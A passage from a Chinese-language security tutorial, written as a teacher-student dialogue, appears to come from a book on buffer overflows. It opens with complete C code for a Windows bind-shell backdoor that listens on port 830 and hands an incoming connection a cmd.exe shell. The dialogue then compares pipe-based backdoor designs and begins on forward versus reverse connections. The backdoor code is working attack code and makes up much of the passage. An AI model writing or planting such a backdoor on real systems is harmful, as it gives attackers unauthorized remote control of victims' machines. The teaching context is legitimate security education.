 ```
         struct sockaddr_in server;
         server.sin_family = AF_INET;
         server.sin_port = htons(830);
         server.sin_addr.s_addr=ADDR_ANY;
ret=bind(listenFD,(sockaddr *)&server,sizeof(server));
         ret=listen(listenFD,2);
         //如果客户请求 830 端口，接受连接
         int iAddrSize = sizeof(server);
         SOCKET clientFD=accept(listenFD,(sockaddr *)&server,&iAddrSize);
         STARTUPINFO si;
         ZeroMemory(&si,sizeof(si));
         si.dwFlags = STARTF_USESHOWWINDOW|STARTF_USESTDHANDLES;
         si.wShowWindow = SW_HIDE;
         si.wShowWindow = SW_SHOWNORMAL;
         si.hStdInput = si.hStdOutput = si.hStdError = (void *)clientFD;
         char cmdLine[] = "cmd.exe";
         PROCESS_INFORMATION ProcessInformation;
         //建立进程 
  ret=CreateProcess(NULL,cmdLine,NULL,NULL,1,0,NULL,NULL,&si,&ProcessInformation);
         return 0;
} 
```

“哇！好简短啊！”小倩说道。

“我们测试一下，运行，打开了 830 端口，而且可以登陆交互，如图 3－34。”

![](img/Q 版缓冲区溢出教程 106611.jpg)

“呀！这么简单的后门，写起来多容易啊！”

“是啊！这么好的方法怎么不早说呢？我们就不用写双管道和单管道了。”大家说。

“NO，”老师纠正道，“这三种开端口后门的办法，各有优劣。零管道编写方法的确比较方便，但用户一输入命令就直接进入 CMD 进程执行了。有时我们想预先处理一下用户的命令，就需要用双管道或单管道的方法。”

“哦？”

“比如，我们可以在后门中加入列举进程的命令——pslist。CMD 里是没有这些命令的，所以我们就需要先判断用户传过来的是 pslist，然后在程序里面实现列举进程的功能，而不是传给 CMD 进程执行。”

“真是尺有所短，寸有所长啊！”同学们感叹道。

“说的好，就是这样的！”

# 3.5.2 正向连接和反向连接

### 3.5.2 正向连接和反向连接

老师说，“好累啊，本来还要讲反连后门的编写的，看来时间来不及了。大家下去讨论一下如何实现吧！”

“反连后门？是什么？”玉波问道。

“刚才的程序是目标机作为服务端，监听 830 端口；攻击机作为客户端，正向连接目标机的 830 端口，其示意图如图 3－35。”
